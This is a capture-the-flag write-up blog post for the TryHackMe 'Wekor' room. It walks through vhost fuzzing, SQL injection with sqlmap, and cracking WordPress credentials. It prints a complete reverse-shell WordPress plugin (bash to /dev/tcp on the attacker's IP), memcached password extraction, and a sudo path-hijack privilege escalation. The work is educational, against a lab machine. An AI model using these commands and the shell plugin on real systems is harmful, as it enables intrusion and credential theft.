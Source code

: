 ```yaml
---
layout: post
title:  "THM: Wekor"
date:   2021-03-09 19:40:00 +1100
category: hacking
---
```


## Wekor
*CTF challenge involving Sqli , WordPress , vhost enumeration and recognizing internal services ;)*

Medium rated but surely that description gives a lot away? This is [Wekor](https://tryhackme.com/room/wekorra) from THM.

## Ports
SSH and HTTP only.

## VHOSTS
Since we already know there is a VHOST/subdomain to find, I'll run WFUZZ:

``
wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u "http://wekor.thm" -H "Host: FUZZ.wekor.thm" -t 42 --hh 23
``

This turns up *site*. I add *site.wekor.thm* to /etc/hosts along with *wekor.thm*.

On the main *wekor.thm* robots.txt is mostly trolling apart from */comingreallysoon* which directs us to */it-next*. This is a page with lots of stuff on it; the SQLi is on */it-next/it_cart.php* with the parameters *coupon_code=asdsadsadasd&apply_coupon=Apply+Coupon*. I use **sqlmap** and enumerate the databases; we have wordpress so I dump the contents with:

``
sqlmap -r request -level=1 -risk=1 --batch -D wordpress --dump
``

With this we get some user:password combinations, with a little help from John. 

Wordpress is at *site.wekor.thm/wordpress* and using the credentials we gained from the SQLi we can login. One of our users is a WP admin, and I upload a plugin zipfile for a reverse shell.

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/wekor]
└─# cat plugin_shell.php 
root@kali:/opt/vulnhub/midnight# cat ../kbvuln/rev-plugin.php 
<?php

/**
* Plugin Name: Reverse Shell Plugin  
* Plugin URI:  
* Description: Reverse Shell Plugin  
* Version: 1.0  
* Author: 
* Author URI: http://blog.gibbons.digital
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.10.123/1234 0>&1'");
?>
                                                                                                                                
┌──(root💀kali)-[/opt/thm/wekor]
└─# zip shell.zip plugin_shell.php
  adding: plugin_shell.php (deflated 31%)
{% endhighlight %}

## On the box
We're told to look for internal services and Linpeas finds *memcache* running on port 11211. I use *telnet*:

{% highlight shell %}
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
stats items
stats items
STAT items:1:number 5
STAT items:1:age 2096
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 0
STAT items:1:lrutail_reflocked 0
END
stats cachedump 1 100
stats cachedump 1 100
ITEM id [4 b; 1615202210 s]
ITEM email [14 b; 1615202210 s]
ITEM salary [8 b; 1615202210 s]
ITEM password [15 b; 1615202210 s]
ITEM username [4 b; 1615202210 s]
END
get KEY password
get KEY password
VALUE password 0 15
# PASSWORD WAS HERE
END
{% endhighlight %}

Now I can *su Orka*.

## Privesc
{% highlight shell %}
┌──(root💀kali)-[/opt/thm/wekor]
└─# nc -nvlp 1234                                                                                                           1 ⨯
listening on [any] 1234 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.239.129] 36006
bash: cannot set terminal process group (1072): Inappropriate ioctl for device
bash: no job control in this shell
www-data@osboxes:/var/www/html/site.wekor.thm/wordpress/wp-admin$ python -c 'import pty;pty.spawn("/bin/bash");'
<ss/wp-admin$ python -c 'import pty;pty.spawn("/bin/bash");'                 
www-data@osboxes:/var/www/html/site.wekor.thm/wordpress/wp-admin$ su Orka
su Orka
Password: REDACTED

Orka@osboxes:/var/www/html/site.wekor.thm/wordpress/wp-admin$

# What can we do?

Orka@osboxes:~$ sudo -l
sudo -l
[sudo] password for Orka: REDACTED AGAIN LOL

Matching Defaults entries for Orka on osboxes:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User Orka may run the following commands on osboxes:
    (root) /home/Orka/Desktop/bitcoin

# Okay

Orka@osboxes:~$ mv Desktop Whatever
mv Desktop Whatever
Orka@osboxes:~$ ls
ls
Documents  Music     Public  Templates  Videos
Downloads  Pictures  user.txt   Whatever
Orka@osboxes:~$ mkdir Desktop
mkdir Desktop
Orka@osboxes:~$ cd De
cd Desktop/
Orka@osboxes:~/Desktop$ ls
ls
Orka@osboxes:~/Desktop$ printf 'sh\n' > bitcoin
printf 'sh\n' > bitcoin
Orka@osboxes:~/Desktop$ chmod +x bitcoin
chmod +x bitcoin
Orka@osboxes:~/Desktop$ sudo -u root /home/Orka/Desktop/bitcoin
sudo -u root /home/Orka/Desktop/bitcoin
# cd /root
cd /root
# id;hostname
id;hostname
uid=0(root) gid=0(root) groups=0(root)
osboxes
{% endhighlight %}

A quick explanation. *bitcoin* was a binary that called a python script called *transfer.py*. Neither were writeable, both were owned by root. I couldn't delete or rename either of them. Initially I tried messing with the things they were calling like the python modules being imported, but that wasn't working. So I just renamed the entire Desktop directory, made another one and created my own *bitcoin* file. Face-palmingly simple in the end.
